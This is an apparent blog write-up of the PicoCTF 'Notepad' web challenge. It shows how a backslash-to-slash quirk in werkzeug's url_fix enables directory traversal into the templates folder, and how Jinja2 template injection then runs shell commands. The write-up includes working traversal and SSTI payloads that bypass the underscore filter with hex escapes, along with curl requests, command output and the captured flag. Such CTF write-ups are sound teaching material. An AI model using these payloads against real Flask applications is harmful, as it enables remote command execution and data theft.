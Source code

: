 ```yaml
---
title: "PicoCTF - Notepad"
date: 2024-09-15
description: "SSTI via error message"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups, PicoCTF]
cover: 'https://play.picoctf.org/api/media/picoCTF_p_logo_4c_3_NoYG1qU_3zBp50s.png'
translationKey: 'media'
stage: 'budding'
toc: true
---
```


## app.py 

 ```python
 @app.route('/user/<name>')
def greet_user(name):
    return render_template('greet.html', name=name)
```

https://notepad.mars.picoctf.net/ render **index.html** with context variable "error" .

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
https://notepad.mars.picoctf.net/new for uploading notes. Variable **content** is taken from the HTML form, filtered with '_' and '/' and if occur, redirect to error html. If not, store new file html note in folder static with file name is `static/{url_fix(content[:128])}-{token_urlsafe(8)}.html`

### url_fix()
Its deprecated in the werkberg library ([here](https://tedboy.github.io/flask/generated/werkzeug.url_fix.html)). Source:
```python
def url_fix(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
 it contains unsafe characters like ' ' and so on. This function can fix
 some of the problems in a similar way browsers handle data entered by the
 user:

 >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
 'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

 :param s: the string with the URL to fix.
 :param charset: The target charset for the URL if the url was given as
 unicode string.
 """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))
   ```

Notice that we have
 ```python
s = to_unicode(s, charset, 'replace').replace('\\', '/')
```
which is crucial for bypass "/" filter.

## index.html
{% raw %}
```html
    <!doctype  html>
    {% if error is not none %}
		    <h3>
		    error: {{ error }}
		    </h3>
		    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form  action="/new"  method="POST">
    <textarea  name="content"></textarea>
    <input  type="submit">
    </form> 
 ```
 {% endraw %}

Here, flask used Jinja2 (can SSTI). The **sink** could be the jinja template. Since https://notepad.mars.picoctf.net/?error=7*7 not works, cause the server treats the error string, so the Jinja template could not evaluate it.

{% raw %}
=> **Sink**: {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}


To do that, we have:
```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
From there, we can perform directory traversal to folder **errors**, then by
{% raw %}
     {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}     
we evaluate SSTI payload.

## Exploit
With use of url_fix(). We note:

    make a new note
    
    ..\templates\errors\123abc

=> Redirect to: https://notepad.mars.picoctf.net/templates/errors/123abc%0D%0A-4vnyXEK_tLc.html. Then we access it. 
=> https://notepad.mars.picoctf.net/?error=123abc%0D%0A-4vnyXEK_tLc

    error: 123abc -4vnyXEK_tLc
    
     make a new note
{% raw %}
Do the same with simple payload {{7*7}}
{% endraw %}

=>
{% raw %}
    error: 123abc {{7*7}}-mAQRWwnJPVg
{% endraw %}

    make a new note

Since it in the name of file, we cant evaluate it, to do this: from **app.py**:
```python
 name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
 ```
{% raw %}
After processing with `url_fix()`, the `{{7*7}}` expression contained special character `{` and `}`. So if its exist in the URL, we just pass the value of variable `error`, not the file that we made.
{% endraw %}

So what we need is make the content longer, then the payload is outbound of 128 characters =>
URL path is valid for access => SSTI!

**Payload:**
{% raw %}
    ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{7*7}}
{% endraw %}

 ```bash   

    $ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
    <!doctype html>
    
      <h3>
        error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
      </h3>
      ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa49
    
    <h2>make a new note</h2>
    <form action="/new" method="POST">
      <textarea name="content"></textarea>
      <input type="submit">
    </form>
```

Then we got this "49".
After a long while to craft my payload with [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), here is my payload for by pass the `_`
 
 **Payload:**
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("ls", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


```bash
$ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
<!doctype html>

  <h3>
    error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
  </h3>
  ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab&#39;app.py\nflag-c8f5526c-4122-4578-96de-d7dd27193798.txt\nstatic\ntemplates&#39;

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```
Do the last round for the flag:
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt", shell=True, stdout=-1).communicate()[0].strip()}}
```

{{< epigraph >}}
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
{{< /epigraph >}}